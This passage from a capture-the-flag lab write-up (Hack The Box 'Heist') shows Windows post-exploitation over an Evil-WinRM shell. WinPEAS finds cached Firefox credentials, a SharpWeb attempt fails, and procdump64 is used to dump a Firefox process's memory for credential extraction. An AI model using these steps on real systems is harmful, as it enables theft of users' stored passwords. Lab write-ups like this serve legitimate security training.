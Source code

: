 Loading WinPEAS onto the target we see there are some cached firefox credentials.

![htb_heist_wp2.png](../assets/heist_assets/htb_heist_wp2.png)

And firefox.exe is running:

![htb_heist_wp.png](../assets/heist_assets/htb_heist_wp.png)

Lets use https://github.com/djhohnstein/SharpWeb/ to help with this.

Unfortunately this did not work, and I'm not positive why:

```
*Evil-WinRM* PS C:\temp> .\SharpWeb.exe firefox


=== Checking for Firefox (Current User) ===

*Evil-WinRM* PS C:\temp>
```

Lets see the processes running. First we'll grab a copy of procdump64 from https://live.sysinternals.com/ and upload it to the target.

Next lets use `get-process firefox` to view the processes:

```
*Evil-WinRM* PS C:\temp> get-process firefox

Handles  NPM(K)    PM(K)      WS(K)     CPU(s)     Id  SI ProcessName
-------  ------    -----      -----     ------     --  -- -----------
   1089      68   134228     211896       5.28   6400   1 firefox
    347      19    10132      38372       0.14   6524   1 firefox
    401      34    32060      91816       1.14   6732   1 firefox
    378      28    22028      58292       0.42   6928   1 firefox
    355      25    16512      38620       0.09   7156   1 firefox
```

Now lets run:

```
*Evil-WinRM* PS C:\temp> ./procdump64.exe -ma 6400 -accepteula

ProcDump v11.0 - Sysinternals process dump utility
Copyright (C) 2009-2022 Mark Russinovich and Andrew Richards
Sysinternals - www.sysinternals.com

[01:14:32] Dump 1 initiated: C:\temp\firefox.exe_240724_011432.dmp
[01:14:33] Dump 1 writing: Estimated dump file size is 491 MB.
[01:14:35] Dump 1 complete: 491 MB written in 3.1 seconds
[01:14:36] Dump count reached.
```
